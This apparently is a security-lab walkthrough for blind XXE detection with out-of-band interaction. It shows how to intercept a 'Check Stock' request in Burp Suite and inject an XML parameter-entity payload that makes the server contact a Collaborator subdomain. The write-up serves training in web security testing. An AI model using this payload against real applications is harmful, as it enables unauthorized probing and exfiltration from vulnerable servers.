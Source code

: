 ## Example Lab Exercise

In this lab, the "Check Stock" function analyzes XML input data but does not display unexpected values and blocks requests containing regular external entities.

### Steps to Perform the Attack

### 1. Select a Product
Open the list of products and choose any item:

![Product List](https://github.com/user-attachments/assets/420f18e2-6900-4413-81f2-7cc5c6103444)

---

### 2. Click the Button
On the product page, click the **"Check Stock"** button after enabling a proxy tool (e.g., Burp Suite):

![Check Stock Button](https://github.com/user-attachments/assets/c12710e3-0520-47a9-b507-1bb41849a7df)

---

### 3. Intercept the Request
Go to **Proxy → HTTP History**, locate the POST request to `/product/stock`, and send it to **Repeater**:

![POST Request](https://github.com/user-attachments/assets/714f1495-42e5-48d2-b690-8bf41c3f3a57)

---

### 4. Inject the Payload 🚀

Insert the following parameter entity definition between the XML declaration and the `stockCheck` element. Use **Burp Collaborator** to insert your own subdomain where `BURP-COLLABORATOR-SUBDOMAIN` is indicated:
```xml
<!DOCTYPE stockCheck [<!ENTITY % xxe SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN"> %xxe; ]>
```

Replace the `productId` value with the parameter entity reference.

![Parameter Entity Payload Injection](https://github.com/user-attachments/assets/0dfd4ce3-255e-42ef-b1ed-ac6b2edce480)

---

### 5. Check Collaborator
Switch to the **Collaborator** tab and click **"Poll now"**. If interactions are not visible, wait a few seconds and try again. You should see DNS and HTTP interactions initiated by the application as a result of your payload.

---
